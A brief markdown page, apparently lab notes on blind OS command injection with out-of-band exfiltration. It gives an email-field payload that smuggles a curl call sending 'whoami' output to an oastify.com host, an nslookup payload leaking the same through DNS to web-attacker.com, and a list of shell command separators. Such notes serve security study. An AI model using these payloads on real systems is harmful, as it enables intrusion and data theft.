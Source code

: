 ```yaml
---
layout: default
title: 5 - Blind OS command injection with out-of-band data exfiltration
---
```

```bash
email=test%40test.com||curl+"http://zwz8rzx8skcv9qkhk1n23ssan1tvhoec3.oastify.com?cmd=$(whoami)"||
```

```bash
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```


- `&`
- `&&`
- `|`
- `||`
- `;`
- Newline (`0x0a` or `\n`)
- `$()`
